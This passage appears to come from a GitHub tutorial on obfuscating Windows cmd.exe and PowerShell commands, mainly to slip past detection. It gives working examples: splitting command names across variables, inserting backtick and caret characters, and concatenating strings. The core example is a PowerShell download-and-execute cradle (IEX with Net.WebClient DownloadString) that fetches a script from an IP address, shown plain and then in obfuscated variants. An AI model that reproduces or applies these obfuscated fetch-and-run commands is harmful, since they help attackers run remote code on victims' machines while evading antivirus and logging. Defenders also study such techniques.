 - Using one **batch** local variable inside the **powershell interpreter**

      cmd.exe /c "set var=Get-Date&& cmd.exe /c echo %var%^" | powershell.exe

      [ "powershell" can be also set and called as variable in cmd.exe ]
      cmd.exe /c "set p1=power&& set p2=shell&& cmd /c echo Write-Host SUCCESS ^| %p1%%p2%.exe"

![powershell obfuscation](http://i65.tinypic.com/2liea90.jpg)

- More Obfuscated using powershell **`** and batch **^** special characters

      c`md`.e`xe /c "s^Et va^r=Get-Date&& c^md^.e^xe /c e^ch^o %var%^" | power`shell.`ex`e

![powershell obfuscation](http://i67.tinypic.com/3509rw5.jpg)

---

      We can obfuscate the syscall's by simple split them into local variables and concaternate
      them using 'tick' + 'splatting' obfuscation methods inside variable declarations.

<br />

- String command to obfuscate<br />
`powershell.exe Get-WmiObject -Class Win32_ComputerSystem`<br />
The above string can be obfuscated using **powershell special characters:** **`** and **+** and **$var** and **'**<br />

- String obfuscated<br />

      $get = "G`et-Wm`iObj`ect"                     #<-- caret ` inside double quotes
      $sys = 'Wi'+'n32_C'+'ompu'+'terS'+'ystem'     #<-- caret + inside single quotes
      p`ow`ers`hell.e`xe $get -Class $sys           #<-- de-obfuscate syscall's at run-time

![powershell obfuscation](http://i63.tinypic.com/71pe0h.jpg)

---

      [ obfuscating .DownloadString ] In this article we allready have learned how to
      use variable declarations + tick special characters to obfuscate the systemcall's.

      $method = "D`ow`nlo`adSt`rin`g"
      IEX (New-Object Net.WebClient).$method('http://192.168.1.71/hello.ps1')

      This next example shows how to use 'parentheses' to transform the DownloadString flag
      into one powershell string that can be manipulated using more obfuscated technics ..

- String command to obfuscate<br />
`IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.71/hello.ps1')`

- String obfuscated [Parentheses+tick]<br />

      I`EX ((N`ew-Obj`ect N`et.We`bCli`ent)).('Do'+'wn'+'lo'+'adStr'+'ing').Invoke(('h'+'tt'+'p:/'+'/19'+'2.16'+'8.1.71/hello.ps1'))

![batch obfuscation](http://i.cubeupload.com/0CXBYp.jpg)

---
      Powershell also allow us to access windows environment variables using the $env: switch
      Using $env:LOCALAPPDATA (windows environment variable) and -Join '' to pull out the 0º ,23º, 21º,7º and 7º
      chars from $env:LOCALAPPDATA and then the -Join '' operator will take the array and convert it to a string.
